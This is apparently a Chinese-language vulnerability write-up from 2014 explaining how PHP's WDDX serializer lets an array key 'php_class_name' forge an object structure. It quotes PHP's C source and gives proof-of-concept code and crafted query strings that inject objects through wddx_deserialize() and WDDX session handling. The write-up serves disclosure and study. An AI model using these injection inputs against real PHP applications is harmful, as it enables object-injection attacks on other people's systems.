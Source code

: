 ### PHP WDDX Serializier Data Injection Vulnerability
> Taoguang Chen <[@chtg](http://github.com/chtg)> - 2014.11.2

PHP 在把数组序列化为 WDDX 结构的过程中，没有对数组的键名严格限制，导致可以伪造对象的 WDDX 结构。

i 序列化对象
-------------------

PHP 在把对象序列化为 WDDX 结构时，会做如下处理：

``` php
static void php_wddx_serialize_object(wddx_packet *packet, zval *obj)
...
		php_wddx_add_chunk_static(packet, WDDX_STRUCT_S);
		snprintf(tmp_buf, WDDX_BUF_LEN, WDDX_VAR_S, PHP_CLASS_NAME_VAR);
		php_wddx_add_chunk(packet, tmp_buf);
		php_wddx_add_chunk_static(packet, WDDX_STRING_S);
		php_wddx_add_chunk_ex(packet, class_name->val, class_name->len);
		php_wddx_add_chunk_static(packet, WDDX_STRING_E);
		php_wddx_add_chunk_static(packet, WDDX_VAR_E);
}
```

比如下面代码中的变量 $obj：

``` php
class ryat {
	var $hi;
	function __wakeup() {
		echo 'hi';
	}
	function __destruct() {
		echo $this->hi, "\n";
	}
}

$obj = new ryat();
$obj->hi = 'ryat';

var_dump(wddx_serialize_value($obj));
```

经过 wddx_serialize_value() 函数序列化的 WDDX 结构如下：

``` php
<wddxPacket version='1.0'><header/><data><struct><var name='php_class_name'><string>ryat</string></var><var name='hi'><string>ryat</string></var></struct></data></wddxPacket>
```

ii 序列化数组
-------------------

PHP 把数组序列化为 WDDX 结构时，会做如下处理：

``` php
static void php_wddx_serialize_array(wddx_packet *packet, zval *arr)
{
...
	target_hash = HASH_OF(arr);
	ZEND_HASH_FOREACH_KEY(target_hash, idx, key) {
		if (key) {
			is_struct = 1;
			break;
		}

		if (idx != ind) {
			is_struct = 1;
			break;
		}
		ind++;
	} ZEND_HASH_FOREACH_END();

	if (is_struct) {
		php_wddx_add_chunk_static(packet, WDDX_STRUCT_S);
	} else {
		snprintf(tmp_buf, sizeof(tmp_buf), WDDX_ARRAY_S, zend_hash_num_elements(target_hash));
		php_wddx_add_chunk(packet, tmp_buf);
	}

	ZEND_HASH_FOREACH_KEY_VAL(target_hash, idx, key, ent) {
		if (ent == arr) {
			continue;
		}

		if (is_struct) {
			if (key) {
				php_wddx_serialize_var(packet, ent, key TSRMLS_CC);
			} else {
				key = zend_long_to_str(idx);
				php_wddx_serialize_var(packet, ent, key TSRMLS_CC);
				zend_string_release(key);
			}
		} else {
			php_wddx_serialize_var(packet, ent, NULL TSRMLS_CC);
		}
	} ZEND_HASH_FOREACH_END();
	
	if (is_struct) {
		php_wddx_add_chunk_static(packet, WDDX_STRUCT_E);
	} else {
		php_wddx_add_chunk_static(packet, WDDX_ARRAY_E);
	}
}
...
void php_wddx_serialize_var(wddx_packet *packet, zval *var, zend_string *name TSRMLS_DC)
{
...
	if (name) {
		char *tmp_buf;
		zend_string *name_esc;

		name_esc = php_escape_html_entities(name->val, name->len, 0, ENT_QUOTES, NULL TSRMLS_CC);
		tmp_buf = emalloc(name_esc->len + sizeof(WDDX_VAR_S));
		snprintf(tmp_buf, name_esc->len + sizeof(WDDX_VAR_S), WDDX_VAR_S, name_esc->val);
		php_wddx_add_chunk(packet, tmp_buf);
		efree(tmp_buf);
		zend_string_release(name_esc);
	}
```

从上面的代码可以看到，数组序列化后的 WDDX 结构主要分为两种，一种是没有指定键名的数组的处理，比如下面代码中的变量 $arr：

``` php
$arr = array('hi', 'ryat');
var_dump(wddx_serialize_value($arr));
```

经过 wddx_serialize_value() 函数序列化的 WDDX 结构如下：

``` php
<wddxPacket version='1.0'><header/><data><array length='2'><string>hi</string><string>ryat</string></array></data></wddxPacket>
```

另一种则是对指定键名的数组的处理，比如下面代码中的变量 $arr：

``` php
$arr = array('hi'=>'hi', 'ryat'=>'ryat');
var_dump(wddx_serialize_value($arr));
```

经过 wddx_serialize_value() 函数序列化的 WDDX 结构如下：

``` php
<wddxPacket version='1.0'><header/><data><struct><var name='hi'><string>hi</string></var><var name='ryat'><string>ryat</string></var></struct></data></wddxPacket>
```

iii 伪造对象的 WDDX 结构
-------------------

通过上面的分析，简单了解 WDDX 结构存储 PHP 数组和对象的具体格式，对象的存储格式和指定键名的数组的存储格式非常接近，区别只在于，对象的存储格式多了对类名的存储：

``` php
<var name='php_class_name'><string>ryat</string></var>
```

PHP 在把数组序列化 WDDX 结构过程中，仅仅调用了 php_escape_html_entities() 函数处理，然后直接构造 WDDX_VAR_S： 

``` c
#define WDDX_VAR_S				"<var name='%s'>"
```

那么如果数组中存在一个值为 php_class_name 的键名，就可以构造出：

``` php
<var name='php_class_name'><string>ryat</string></var>
```

这时序列化的 WDDX 结构就和对象的一样了，如下面代码中的变量 $arr：

``` php
$arr = array('php_class_name'=>'ryat', 'hi'=>'ryat');
var_dump(wddx_serialize_value($arr));
```

经过 wddx_serialize_value() 函数序列化的 WDDX 结构如下：

``` php
<wddxPacket version='1.0'><header/><data><struct><var name='php_class_name'><string>ryat</string></var><var name='hi'><string>ryat</string></var></struct></data></wddxPacket>
```

可以看到，序列化的 WDDX 结构和第一个例子中的 $obj 对象序列化的 WDDX 结构是一样的，也就说，通过一个特殊的数组伪造了一个对象的 WDDX 结构：）

iv 安全隐患
-------------------

PHP 反序列化 WDDX 结构的处理过程类似于 unserialize() 函数，通过对特定的 WDDX 结构反序列化，可以生成一个对象，并执行类的 \_\_wakeup() 方法（如果存在的话），在对象被销毁或者脚本执行结束时会执行类的 \_\_destruct() 方法（如果存在的话），那么安全隐患随之而来。而比 unserialize() 函数更危险的是，反序列化过程和序列化过程都可能存在安全问题：）

#### i) 利用 wddx_deserialize() 函数

``` php
class ryat {
	var $hi;
	function __wakeup() {
		echo 'hi';
	}
	function __destruct() {
		echo $this->hi, "\n";
	}
}

wddx_deserialize(wddx_serialize_value($_GET['arr']);
```

通过下面的方式，可以成功执行 \_\_wakeup() 方法和 \_\_destruct() 方法：）

``` php
?arr[php_class_name]=ryat&arr[hi]=ryat
```

#### ii) 利用 $\_SESSION 进行序列化和反序列化

PHP 在存储和读取 $\_SESSION 时会对数据进行序列化和反序列化，默认情况下与 serialize() 函数和 unserialize() 函数的处理方式相同，但是 PHP 提供了一个 session.serialize\_handler 配置选项，可以使用 WDDX 格式进行序列化和反序列化：）

``` php
ini_set('session.serialize_handler', 'wddx');
session_start();
$_SESSION['arr'] = $_GET['arr'];
```

通过下面的方式，就可以伪造成对象的 WDDX 结构：）

``` php
?arr[php_class_name]=ryat&arr[hi]=ryat
```
